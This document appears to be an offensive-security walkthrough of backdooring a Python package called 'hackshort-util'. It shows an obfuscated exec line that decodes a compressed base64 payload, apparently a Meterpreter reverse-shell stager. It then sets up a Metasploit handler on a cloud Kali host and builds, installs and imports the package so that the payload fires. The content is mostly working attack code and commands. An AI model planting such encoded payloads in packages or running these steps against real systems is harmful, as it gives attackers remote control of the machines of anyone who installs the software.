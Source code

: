 ```hlt:19
17  exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNo9UE1LxDAQPTe/IrckGMPuUrvtYgURDyIiuHsTWdp01NI0KZmsVsX/7oYsXmZ4b968+ejHyflA0ekBgvw2fSvbBqHIJQZ/0EGGfgTy6jydaW+pb+wb8OVCbEgW/NcxZlinZpUSX8kT3j7e3O+3u6fb6wcRdUo7a0EHztmyWqmyVFWl1gWTeV6WIkpaD81AMpg1TCF6x+EKDcDELwQxddpJHezU6IGzqzsmUXnQHzwX4nnxQrr6hI0gn++9AWrA8k5cmqNdd/ZfPU+0IDCD5vFs1YF24+QBkacPqLbII9lBVMofhmyDv4L8AerjXyE=')[0])))
```

Logging into Cloud Kali Instance via SSH
```
kali@kali:~$ ssh kali@192.88.99.76
```

Initialize database
```
kali@cloud-kali:~$ sudo msfdb init
```

Start metasploit
```
kali@cloud-kali:~$ msfconsole
```

Configure metasploit listener and set payload to python/meterpreter/reverse_tcp
```

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0

msf6 exploit(multi/handler) > set LPORT 4488
LPORT => 4488
```

Prevent listener from closing as soon as a reverse shell connects 
```
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
```

Run listener as job and prevent metasploit from immediately interacting with `-z`
```
msf6 exploit(multi/handler) > run -jz
```

Testing our package by Uninstalling, Rebuilding, Reinstalling, and Importing the hackshort-util Package on local kali
```
kali@kali:~/hackshort-util$ pip uninstall hackshort-util
...

kali@kali:~/hackshort-util$ python3 ./setup.py sdist
...

kali@kali:~/hackshort-util$ pip install ./dist/hackshort-util-1.1.4.tar.gz
...

kali@kali:~/hackshort-util$ python3
Python 3.11.2 [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from hackshort_util import utils
>>>
```
